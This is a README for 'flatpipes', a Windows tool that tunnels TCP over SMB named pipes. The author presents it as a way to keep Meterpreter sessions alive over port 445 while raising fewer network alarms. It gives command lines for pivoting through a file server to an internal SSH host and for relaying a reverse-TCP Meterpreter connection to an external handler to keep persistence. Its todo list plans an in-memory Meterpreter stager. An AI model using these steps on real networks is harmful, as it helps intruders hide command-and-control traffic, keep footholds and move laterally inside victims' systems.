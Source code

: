 # flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.PNG "help")

Since it seems it can help in various situations, let's list a few:

#### TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server): *flatpipes.exe pserver sserver pipename . 127.0.0.1 10001*
> The above will create two pipes "pipename_s2c" & "pipename_c2s" and as soon as negotiation is ok will open a TCP listener at 10001

On the 2nd Windows host (pipe client): *flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001*
> Here we just connect to the pipe(s) created earlier on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too

Finally, netcat on the two hosts on their listeners and chat with yourself.

#### Bring a remote port here

Let's suppose you have access on the MS Fileserver through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system in the server LAN but we can only connect to MS Fileserver 445 (and eg WMI for command exec)

On the MS Fileserver: *flatpipes.exe pserver sclient pipename . 10.0.2.2 22*
> The above will create our pipes for "IPC", and as soon as we connect, it will TCP connect to the SSH server in the LAN. All IO is through the flatpipes

On the jumphost: *flatpipes.exe pclient sserver pipename 10.0.2.10 127.0.0.1 22*
> The above will PIPE connect to the MS fileserver 10.0.2.10, and immediately spawn a TCP listener on localhost 22

Just ssh on 127.0.0.1 22 and you are through the town portal

#### Reverse TCP meterpreter through pipes
On the MS Fileserver again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver: *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321*
> Same as above, we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter

On the jumphost: *flatpipes.exe pclient sclient pipename 10.0.2.10 IP_OF_METERPRETER_HANDLER 54321*
> We connect to the MS Fileserver and immediately connect to the handler. 

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.

---
ps. I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.

I hope it will help. It is not very well-written, I welcome comments / looking for feedback.

<dl>
  <dt>Todo</dt>
  <dd>Include a meterpreter bind/reverse stager (exec will C# virtualalloc / createthread)</dd>
  <dd>"Monkey patch" the above stager to change port on the fly (on hex)</dd>
  <dd>Exception handling. Asap when pipe auth does not work</dd>
  <dd>Think any other useful scenarios</dd> 
</dl>
